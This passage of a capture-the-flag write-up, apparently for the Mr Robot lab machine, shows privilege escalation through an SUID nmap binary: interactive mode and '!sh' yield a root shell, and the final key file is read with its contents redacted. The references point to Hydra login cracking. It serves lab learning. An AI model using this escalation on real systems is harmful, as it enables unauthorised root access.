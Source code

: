 ### Using Nmap for Priv Esc

- By running nmap in interactive mode, we can spawn a shell using `!sh`.
- Since the **SUID bit** is set, the spawned shell will have root access.

```bash
robot@linux:/dev/shm$ nmap -V

nmap version 3.81 ( http://www.insecure.org/nmap/ )
robot@linux:/dev/shm$ nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> help
Nmap Interactive Commands:
n <nmap args> -- executes an nmap scan using the arguments given and
waits for nmap to finish.  Results are printed to the
screen (of course you can still use file output commands).
! <command>   -- runs shell command given in the foreground
x             -- Exit Nmap
f [--spoof <fakeargs>] [--nmap_path <path>] <nmap args>
-- Executes nmap in the background (results are NOT
printed to the screen).  You should generally specify a
file for results (with -oX, -oG, or -oN).  If you specify
fakeargs with --spoof, Nmap will try to make those
appear in ps listings.  If you wish to execute a special
version of Nmap, specify --nmap_path.
n -h          -- Obtain help with Nmap syntax
h             -- Prints this help screen.
Examples:
n -sS -O -v example.com/24
f --spoof "/usr/local/bin/pico -z hello.c" -sS -oN e.log example.com/24

nmap> !sh
# whoami
root
```

---

## Key 3

```bash
# cd /root
# ls
firstboot_done	key-3-of-3.txt
# cat key-3-of-3.txt
REDACTED
```

---

## References

- [Hydra for web based login](https://linuxhint.com/crack-web-based-login-page-with-hydra-in-kali-linux/)
- [Nmap Priv Esc](https://gtfobins.github.io/gtfobins/nmap/)